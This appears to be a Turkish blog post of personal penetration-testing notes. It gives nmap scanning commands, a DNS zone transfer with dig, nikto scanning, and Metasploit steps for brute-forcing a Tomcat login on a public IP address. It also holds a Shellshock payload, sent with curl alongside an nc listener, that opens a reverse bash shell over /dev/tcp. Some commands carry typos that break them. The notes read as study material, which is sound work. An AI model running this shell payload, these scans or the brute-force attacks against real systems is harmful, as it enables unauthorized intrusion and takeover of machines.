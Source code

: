 ```yaml
---
title: 'Siber Güvenlik Notları #1'
layout: post
tag: siberGuvenlikNotlari
---
```


// begin aktif tarama
* nmap -Sp 192.168.143.0/24 —> bu ağda bana cevap veren makinaların ip adreslerini listeler
* nmap 192.168.1.1 —> bu ip adresindeki açık top 1000 port taranır ve listelenir
* nmap 192.168.1.1 -p 0-65535 —> 0 ile 65535 arasındaki tüm portları tarar.
* nmap 192.168.1.1 -Pn —> ping atmadan tarama yap.
* nmap 192.168.1.1 -Pn -sV —> ping atmadan tara ve portlarda ne hangi versiyonda çalışıyor kontrol et listele.
* nmap 192.168.1.1 -Pn -sV -p 21 —> sadece 21 portu için ping atmadan tara ve ne hangi versiyonda çalışıyor kontrol et listele. versiyon bilgisine göre zafiyet analizi yapılabilir bu bilgiler benim için önemli.
* nmap 192.168.1.1 -Pn -oN sonuc —> tarama verilerini sonuc isimli dosyaya yazar.
* nmap 192.168.1.1 -Pn -oX sonuc.xml —> tarama verilerini sonuc isimli xml dosyaya yazar.
// end aktif tarama

//begin NMAP İle SCRIPT Taraması
* nmap 10.10.50.13 -p 22 -A —> Açık bulduğun portu analiz et bilgi topla keşif yap
* nmap 10.10.50.13 -p 21 -A —> Açık bulduğun portu analiz et bilgi topla keşif yap
* ftp 10.10.50.13 —> ftp bağlan
//end NMAP İle SCRIPT Taraması

//begin DNS Zone Transfer
* nmap 10.10.50.13 -p 80,445,53 -A —> bu ipdeki bu portlara bak ve analiz et.
* dig A domain.name @ipadresi —> dig aracı ile bu ipdeki bu domain name ağ kaydı var mı
* dig AXFR tkeskin@10.10.4.75 —> zone transfer bilgileri
//end DNS Zone Transfer

//begin SHELLSHOCK Zafiyeti ve Sömürülmesi
* nikto —> http servisi üzerinde zafiyetli durumları bulur
* nikto —host 10.10.50.13 —> host uzerindeki zafiyetleri tara gel
* nc -lvp 1337 —> bu portu dinle gelen giden var mı bak
* curl -A “() {ignored;};/bin/bash -ş >& /dev/tcp/ip/port 0>&1” ip/port/cgi-bin/test.sh —> bu ip deki bu porttaki makinadan bin bash getir
//end SHELLSHOCK Zafiyeti ve Sömürülmesi

//begin TOMCAT Servisi Sömürülmesi
* nmap 94.103.41.182 -p 8080 -A
* msfconsole —> Metasploit Framework
* search tomcat —> tomcat zafiyeti ile ilgili yapılacaklar listesi
* use 7 —> aracı aktif etme
* options —> istediği parametreler
* set RHOSTS 94.103.41.182
* set THREADS 15
* set STOP_ON_SUCCESS true
* run
//end Servisi Sömürülmesi

//begin Parola Kırma Saldırıları
* nmap 94.103.41.182 -p 22 -A
//end Parola Kırma Saldırıları